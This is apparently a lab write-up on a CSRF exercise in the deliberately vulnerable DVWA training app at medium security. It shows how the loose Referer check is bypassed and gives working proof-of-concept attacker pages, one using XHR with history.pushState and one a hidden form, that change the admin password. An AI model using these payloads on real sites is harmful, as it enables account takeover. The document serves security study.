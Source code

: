 #### 3.1. CSRF via XHR (medium security DVWA)

Notes:
- this will change the admin password on DVWA
- previous PoC sends `Referer` request header as `Referer: http://localhost:8081/x.html`
- value of `Referer` is validated server-side (needs to match with the value from `Host` header)
```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
	// stuff
}
```
- `Host` header value is typically (sub)domain name or just an IP
- you cannot set the `Host` header (or `User-Agent`) in the XHR request (`xhr.setRequestHeader("Host", "localhost");`)
  - browser will throw an error like `Refused to set unsafe header "Host"`
- `Accept-Language` can be set to whatever value you want
- we can *craft* the `Referer` to contain the `Host` value as `http://<attacker_host>/172.16.201.160`
  - server-side check is loose enough to be bypassed
  - spoofing the entire `Referer` doesn't work via `history.pushState('', '', 'http://172.16.201.160');`
  ```
  Failed to execute 'pushState' on 'History': A history state object with URL 'http://172.16.201.160/' cannot be created in a document with origin 'http://localhost:8081' and URL 'http://localhost:8081/x.html'.
  ```


#### 3.2. PoC attacker page could look like

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      function goBabyGoGo() {
      	var url = "http://172.16.201.160/vulnerabilities/csrf/?";
      	var params = "password_new=123&password_conf=123&Change=Change"

        var xhr = new XMLHttpRequest();
        xhr.open("GET", url + params, true);
        xhr.withCredentials = true;
        var body = ""; // var body = params; // for POST request
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }

      var current_location = document.location.pathname;

      // place the Host value as part of the URL path on attacker's page (this page)
      history.pushState('', '', '172.16.201.160');
      
      // trigger CSRF with Referer: http://<attacker_host>/172.16.201.160
      goBabyGoGo();

      // restore original URL path
      history.pushState('', '', current_location);
    </script>
  </body>
</html>
```

#### 3.2. PoC via non-XHR request

The `Referer` header validation can be bypassed via:
```
php > $a = "http://localhost:8081/POC.html?ip=192.168.209.146";
php > $b = "192.168.209.146";
php > echo stripos($a, $b);
15
```

File: `/tmp/POC.html` (serve the file via `$ python -m SimpleHTTPServer 8081`)

```html
<html>
  <body>
  <!-- <script>history.pushState('', '', '/')</script> -->
    <form action="http://192.168.209.146:8080/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="test" />
      <input type="hidden" name="password&#95;conf" value="test" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

URL for POC must contain the IP address of target website (could be in a "fake" parameter).
```
http://localhost:8081/POC.html?ip=192.168.209.146
```

Once submitted, the request looks like:
```
GET /vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change HTTP/1.1
Host: 192.168.209.146:8080
Referer: http://localhost:8081/POC.html?ip=192.168.209.146
[FORMATTING CUT]
```
Response will have `Password Changed.` message.
